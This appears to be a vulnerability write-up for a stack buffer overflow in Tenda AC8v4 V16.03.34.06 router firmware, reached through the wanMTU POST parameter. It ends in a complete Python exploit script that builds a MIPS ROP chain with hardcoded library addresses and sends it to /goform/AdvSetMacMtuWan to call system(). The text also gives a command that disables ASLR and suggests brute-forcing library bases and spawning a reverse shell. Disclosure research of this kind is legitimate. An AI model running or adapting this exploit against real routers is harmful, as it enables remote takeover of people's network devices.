## Preparation
I will skip the process of setting up the Tenda router simulation environment here. Let's run the httpd binary file to start the web service.



## Vulnerable Function
The Tenda AC8v4 V16.03.34.06 firmware has a stack overflow vulnerability in the fromAdvSetMacMtuWan function. In the function sub_458FBC, the v4, v5, v6, v7, v8, v9 variable receives the wanMTU, wanSpeed, cloneType, mac, serviceName, serverName parameter from a POST request and is later assigned to the function strcpy, which can cause a buffer overflow. The user-provided parameters can exceed the capacity of the a3 array(in the sub_458FBC function) ,and a3 is assigned to &v5[153 * i](in the fromAdvSetMacMtuWan function)  triggering this security vulnerability.**And finally, by constructing a ROP chain, RCE can be achieved**




## One problem
But I encounter the following problem

In a router, the WAN (Wide Area Network) settings are used to configure the router's external network interface that connects to the Internet. The WAN port is usually the interface that connects the router to the Internet Service Provider (ISP) modem. Configuring the correct WAN settings ensures that the router can access the Internet. 
 
In my understanding, wans.flag may be a Boolean value (true/false) to indicate whether certain functions or features are enabled. For example, it may be used to decide whether to enable a certain WAN interface or whether to enable certain advanced network functions. However, in the case of qemu simulation, the value read from GetValue("wans.flag", v4); is always 0, despite the following default settings.**But in the real environment, we can make the return value of GetValue("wans.flag", v4); a number greater than 0. In order to better carry out the attack, I did the following processing**


**To solve this problem,I modified the assembly code in ida so that this loop can be performed once**


## RCE
### Phase 1
In order to achieve RCE, it is necessary to hijack the return address of the fromAdvSetMacMtuWan function


At first I thought of using the gadget in the httpd binary file, but because it is a strcpy function, the gadget address in httpd is low, similar to 0x0045A944, **which will be truncated by \x00,** resulting in incomplete copying, **so we have to use an address near libcbase to avoid truncation.**

The following libcs ​​from vmmap can be used to find gadgets


Initially, I found this gadget in /lib/ld-musl-mipsel.so.1
```text
LOAD:0004D144                 addiu   $a0, $sp, 0x24+var_C
LOAD:0004D148                 lw      $ra, 0x24+var_s0($sp)
LOAD:0004D14C                 nop
LOAD:0004D150                 jr      $ra
```

**But the command length in this system ("command") is too short, so I want to find a new gadget to make the command length longer.**

**Using mipsrop.system(), I got the following gadget in /lib/libcrypto.so.1.0.0. In this way, the address of \$a0 is higher than the address of \$ra, so the command length can be infinite.**
```text
arg_0           =  4
var_s0          =  0
.text:000F6464                 addiu   $a0, $sp, 0x1C+arg_0
.text:000F6468                 lw      $ra, 0x1C+var_s0($sp)
.text:000F646C                 nop
.text:000F6470                 jr      $ra
```


**Note that before jr \$ra, the value of \$sp has been increased by 0x508**



### Phase 2
**When running exp, I found that the lw \$v0, 0xec(\$v0) instruction always fails.** 

```text
0x4377f4 <websWriteBlock+116>    lw     $v0, 0x30($fp)
0x4377f8 <websWriteBlock+120>    nop    
0x4377fc <websWriteBlock+124>    lw     $v0, 0xec($v0)
```

**Tracing back to the source, we found that this value comes from here**
```text
0x4377a0 <websWriteBlock+32>    sw     $a0, 0x30($fp)
```
**Always trace back to the parameter a1 in ida (that is, $a0 in assembly)**
    

**To solve this problem, we can fill the stack with a writable address. You can see that after doing this, \$v0 is a writable value.**



### Phase 3
**It can be seen that the lw instruction fails because the value of \$gp is unreasonable. \$gp is difficult to control, so we choose to control \$t9 and use mipsrop to find the following gadget in /lib/ld-musl-mipsel.so.1. Use the data on the stack to control s4, and then use s4 to control t9, then the lw instruction can be executed correctly**


```text
0x0007EB5C
lw $s4,0x44+var_s10($sp)   0x54
jr    0x5C($sp) 

#0x0001B014  
move $t9,$s4          
jr    0x1C+var_s18($sp) 

```


### exp
**In order to make the exp attack more effective, you need to use the echo 0 > /proc/sys/kernel/randomize_va_space command to turn off ALSR before running the exp. In actual attacks, these libcbases may differ by integer multiples of 0x1000, which requires blasting**

You can watch the video in the project to see the attack effect more intuitively. **Note that by finding a better gadget, the length of the command that can be executed by the system function is unlimited, so that the RCE I expected is achieved.** At the same time, further attacks can be carried out by using the system function to rebound the shell
```python
import requests
from pwn import *
context.arch = 'mips'
context.endian = 'little'

ip = "192.168.50.100:80"
url = "http://" + ip + "/goform/AdvSetMacMtuWan"

#-------------------------------------------gadget1--------------------------------------------
'''
gadget1
/lib/libcrypto.so.1.0.0
arg_0           =  4
var_s0          =  0
.text:000F6464                 addiu   $a0, $sp, 0x1C+arg_0  0x20
.text:000F6468                 lw      $ra, 0x1C+var_s0($sp)
.text:000F646C                 nop
.text:000F6470                 jr      $ra
addiu   $sp, 0x20
'''

#Tenda AC8v4 V16.03.34.06 does not have ASLR mechanism,so the libcbase is definite
#/lib/libcrypto.so.1.0.0
libcbase1=0x77bda000
gadget1=libcbase1+0x00F6464

#---------------------------------------------gadget2-----------------------------------------------

'''
0x0007EB5C
lw $s4,0x44+var_s10($sp)   0x54
jr    0x5C($sp) 
'''
#0x77f59000 0x77fe5000 r-xp    8c000      0 /lib/ld-musl-mipsel.so.1
libcbase2=0x77f59000
gadget2=libcbase2+0x7EB5C
#a writable address
writable=0x77b68000+0x1010
#system
system=libcbase2+0x4E630

#---------------------------------------gadget3----------------------------------------
'''
#0x0001B014  
move $t9,$s4          
jr    0x1C+var_s18($sp) 0x34
addiu   $sp, 0x38
'''


gadget3=libcbase2+0x1B014 
t9_target=0x77fa7630
payload = p32(writable)*(0x4b8//4)+p32(writable)+p32(gadget2)+p32(writable)*(0x54//4)+p32(t9_target)+p32(writable)+p32(gadget3)
payload+=p32(writable)*(0x34//4)+p32(gadget1)
command=b'ls /bin > out ;'
payload+=p32(writable)*(0x1c//4)+p32(system)+command


data = {b"wanMTU": payload}
response = requests.post(url, data=data)
print(response.text)

```